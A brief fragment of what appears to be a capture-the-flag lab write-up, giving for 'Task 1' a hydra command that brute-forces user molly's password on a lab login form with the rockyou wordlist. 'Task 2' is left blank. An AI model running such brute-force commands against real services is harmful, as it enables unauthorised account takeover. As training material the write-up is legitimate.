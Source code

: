 Task 1: `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.58.67 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"`

Task 2:
